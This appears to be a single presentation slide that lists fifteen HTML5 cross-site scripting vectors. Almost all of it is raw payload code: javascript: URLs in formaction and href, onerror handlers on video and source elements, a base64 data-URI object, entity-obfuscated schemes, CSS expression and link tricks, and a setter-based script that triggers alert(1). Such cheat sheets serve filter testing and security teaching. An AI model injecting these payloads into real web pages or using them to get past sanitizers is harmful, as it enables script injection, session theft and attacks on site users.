

HTML 5 XSS Vectors
1) <form id="test" /><button form="test" formaction="javascript:alert(1)">X
2) <form id=test onforminput=alert(1)><input></form><button form=test onformchange=alert(2)>X
3) <video><source onerror="javascript:alert(1)">
4) <video onerror="javascript:alert(1)"><source>
5) <math> <maction actiontype="statusline#http://google.com" xlink:href="javascript:alert(1)">CLICKME</maction> </math>
6) <comment><img src="</comment><img src=x onerror=alert(1))//">
7) <div style=content:url(data:image/svg+xml,%3Csvg/%3E);visibility:hidden onload=alert(1)></div>
8) <head><base href="javascript://"></head><body><a href="/. /,alert(1)//#">XXX</a></body>
9) <object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==">
10) <a href=java&#1&#2&#3&#4&#5&#6&#7&#8&#11&#12script:alert(1)>XXX</a>
11) <title onpropertychange=alert(1)></title><title title=>
12) <style>p[foo=bar{}*{-o-link:'javascript:alert(1)'}{}*{-o-link-source:current}]{color:red};</style>
13) <style>@import "data:,*%7bx:expression(write(1))%7D";</style>
14) <style>*[{}@import'test.css?]</style>X
XXX<style>*{/*all*/color/*all*/:/*all*/red/*all*/;/[0]*IE,Safari*[0]/color:green;color:bl/*IE*/ue;}</style>
15) <script>({set/**/$($){_/**/setter=$,_=1}}).$=alert</script>